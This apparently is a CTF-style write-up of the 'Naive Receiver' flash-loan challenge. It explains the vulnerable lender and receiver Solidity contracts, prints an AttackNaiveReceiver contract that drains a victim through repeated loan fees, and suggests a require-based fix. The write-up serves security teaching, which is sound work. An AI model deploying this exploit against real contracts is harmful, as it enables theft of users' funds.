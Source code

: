 We have two primary contracts in this system:

The `FlashLoanReceiver` contract, which handles receiving and repaying flash loans.
The `NaiveReceiverLenderPool` contract, which is a pool from which flash loans can be requested.
Here is a simplified version of the `FlashLoanReceiver` contract:

```solidity
contract FlashLoanReceiver is IERC3156FlashBorrower {
    // ...
    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        // ... validation checks ...

        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
    // ...
}
```

The `FlashLoanReceiver` contract, when it receives a flash loan, pays back the loan plus a fee. It uses the `_executeActionDuringFlashLoan()` function for handling the loan, which is empty in this case.

The second important contract is `NaiveReceiverLenderPool`. It manages the pool of funds that can be borrowed, and it handles loan requests:

```solidity
contract NaiveReceiverLenderPool is ReentrancyGuard, IERC3156FlashLender {
    // ...
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        // ... validation checks ...

        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }
    // ...
}
```

Now, where is the `vulnerability?` It's in the `flashLoan` function of `NaiveReceiverLenderPool`. This function does not verify if the borrower (or the receiver contract in this case) is the one who is actually initiating the flash loan request.

```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // Missing validation check here
}
```

This oversight is crucial because the `onFlashLoan` function of the receiver's contract gets called, which could have unintended side effects such as the payment of fees.

## Exploit

An attacker can use the `AttackNaiveReceiver` contract to exploit this vulnerability by making flash loan requests on behalf of the victim contract, without the victim initiating these requests. This results in the victim's contract paying the flash loan fees multiple times, effectively draining the victim's funds.

```solidity
contract AttackNaiveReceiver {
    NaiveReceiverLenderPool pool;
    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    constructor(address payable _pool) {
        pool = NaiveReceiverLenderPool(_pool);
    }

    function attack(address victim) public {
        for (int i = 0; i < 10; i++) {
            pool.flashLoan(IERC3156FlashBorrower(victim), ETH, 1 ether, "");
        }
    }
}
```

## Prevention

So, how can we prevent this?
The key lies in correctly validating the borrower's address when a flash loan is requested. We can add a `require` statement in the `flashLoan` function of the `NaiveReceiverLenderPool` contract to verify that the borrower is the one who initiates the flash loan request. This prevents unauthorized flash loans on behalf of the victim.

```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    require(receiver == msg.sender, "The borrower must be the sender");
    // ... rest of the code ...
}
```
